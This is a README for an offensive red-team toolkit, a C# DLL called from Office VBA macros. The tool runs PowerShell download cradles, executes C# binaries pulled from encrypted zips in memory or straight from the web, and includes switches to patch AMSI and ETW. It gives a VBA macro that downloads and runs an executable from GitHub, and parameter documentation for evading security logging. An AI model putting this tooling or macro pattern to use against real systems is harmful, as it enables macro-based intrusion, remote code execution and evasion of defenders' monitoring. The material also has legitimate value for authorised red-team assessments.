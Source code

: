 # Marauders Map
The internal attacker toolkit heavily inspired by the folks of MDSec and their [SharpPack](https://www.mdsec.co.uk/2018/12/sharppack-the-insider-threat-toolkit/)
<br>
The Marauders Map is meant to be used on assessments where you have gained GUI access to an enviornment. 
<br>
The Marauders Map is a DLL written in C#, enriched by the DllExport project to export functions that can serve as an entrypoint of invocation for unmanaged code such as rundll32.

Corresponding blogpost: 

## Capabilities
The power of the Marauders Map is in it's compatibility with the office suite, Marauders map is capeable of the following functionality:

* Run powershell commands such as whoami, or even full-fleged downloadcradles a la IEX(New-Object ... ) 
* Run powershell scrips from within an encrypted zip, unpacking it completely in memory
* Run C# binaries from within an encrypted zip, unpacking it completely in memory
* Run C# binaries fetched from the internet

It also has the functionality to patch AMSI and ETW, although you'll have to bring your own bypasses.


## Usage:
The DLL has one exported function called `ISolemnlySwearIAmUpToNoGood` this is the magic function you'll want to leverage as this will return a new `maraudermap` class. 

You can leverage the maraudermap like this in VBA macro format: 

```
Private Declare PtrSafe Function ISolemnlySwearIAmUpToNoGood Lib "<PATH TO YOUR COMPILED DLL WITH CORRECT OFFICE ARCHITECTURE>" () As Object

Sub test()
Dim MM As Object
Dim run

Set MM = ISolemnlySwearIAmUpToNoGood()
run = MM.RunBinaryFromWeb("https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/Watson.exe?raw=true", "G:\watsonexcel.txt", "", False, False)
End Sub

```

## Marauder Map Functions


The `RunBinaryFromEncryptedZip` function runs a binary from an encrypted zip. It should be noted that the zip does not necessarily have to be a .zip, the zip can have any name and extension, for example redteamfit.txt and the functionality will still work. 
<br>
This function has some parameters to take into account:

* zip - this needs to point to the zip location on disk
* password - the password for the encrypted zip
* outfile - the file where the output of the binary will write to
* binName - the name of the binary you want to run in the zip, the zip can contain multiple binaries, for example [Flangviks's entire sharpcollection](https://github.com/Flangvik/SharpCollection)
* arguments - arguments you want to feed to the binary, delimeter is a space
* nomoretracing - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterfaceForSharpies - boolean to disable AMSI **needs your own bypass**



The `RunBinaryFromWeb` function runs a binary directly from the web.
<br>
This function has some parameters to take into account:

* url - the url that points to the **direct** download of the PE
* outfile - the file where the output of the binary will write to
* arguments - arguments you want to feed to the binary, delimeter is a space
* nomoretracing - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterfaceForSharpies - boolean to disable AMSI **needs your own bypass**

The `RunPowerShellScriptFromEncryptedZip` function runs a poweshell script from an encrypted zip. It should be noted that the zip does not necessarily have to be a .zip, the zip can have any name and extension, for example redteamfit.txt and the functionality will still work. <br>
This function has some parameters to take into account:

* zip - this needs to point to the zip location on disk
* password - the password for the encrypted zip
* outfile - the file where the output of the script will write to
* scriptName - the name of the script you want to run in the zip, the zip can contain multiple scripts, for example [ShitSecure's powersharppack collection](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master/PowerSharpBinaries)
* arguments - arguments you want to feed to the scipt, delimeter is a space
* bypassLogging - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterface - boolean to disable AMSI **needs your own bypass**


The `RunPowerShellCommand` function runs powershell, simple as that. <br>
This function has some parameters to take into account:

* command - the command you want to run, could be beneign such as whoami or could be a full downloadcradle
* outfile - the outfile where the powershell result will write itself to.
* bypassLogging - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterface - boolean to disable AMSI **needs your own bypass**